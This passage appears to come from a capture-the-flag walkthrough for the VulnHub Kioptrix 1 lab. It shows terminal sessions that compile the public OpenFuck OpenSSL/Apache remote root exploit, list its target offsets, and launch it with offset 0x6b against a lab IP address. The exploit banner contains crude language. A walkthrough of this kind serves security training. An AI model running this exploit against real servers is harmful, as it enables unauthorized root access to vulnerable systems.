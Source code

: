 ```                   
┌──(psychic㉿0xShakhawat)-[~/ctf/vulnhub/kioptrix1/OpenFuck]
└─$ gcc -o open OpenFuck.c -lcrypto                       
```
Compilation Done.

Not Executing the file to gain access to the machine
```             
┌──(psychic㉿0xShakhawat)-[~/ctf/vulnhub/kioptrix1/OpenFuck]
└─$ ls
open  OpenFuck.c  README.md
                                                                                                                           
┌──(psychic㉿0xShakhawat)-[~/ctf/vulnhub/kioptrix1/OpenFuck]
└─$ ./open                           

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./open target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
  

  Supported OffSet:
	0x00 - Caldera OpenLinux (apache-1.3.26)
	0x01 - Cobalt Sun 6.0 (apache-1.3.12)
	0x02 - Cobalt Sun 6.0 (apache-1.3.20)
	.
	.
	.
	0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
	.
	.
	.
	0x88 - SUSE Linux 8.0 (apache-1.3.23-120)
	0x89 - SuSE Linux 8.0 (apache-1.3.23-137)
	0x8a - Yellow Dog Linux/PPC 2.3 (apache-1.3.22-6.2.3a)

Fuck to all guys who like use lamah ddos. Read SRC to have no surprise
```
Using ` 0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2 `  

```                        
┌──(psychic㉿0xShakhawat)-[~/ctf/vulnhub/kioptrix1/OpenFuck]
└─$ ./open 0x6b 192.168.208.130 -c 40

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************
```
